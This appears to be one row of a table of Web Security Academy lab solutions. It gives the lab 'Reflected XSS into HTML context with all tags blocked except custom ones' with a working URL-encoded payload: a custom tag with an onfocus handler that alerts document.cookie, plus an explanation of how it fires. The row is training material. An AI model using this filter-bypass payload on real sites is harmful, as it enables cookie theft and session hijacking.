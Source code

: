 |18    |Reflected XSS into HTML context with all tags blocked except custom ones                                                 |<script> location = 'https://YOUR-LAB-ID.web-security-academy.net/?search=%3Cxss+id%3Dx+onfocus%3Dalert%28document.cookie%29%20tabindex=1%3E#x'; </script>                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |creates a custom tag ‘x’, which contains an onfocus event handler that triggers the alert function. The # at the end of the URL focuses on this element as soon as the page is loaded, causing the alert payload to be called                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                  |Practitioner, Reflected XSS                 |
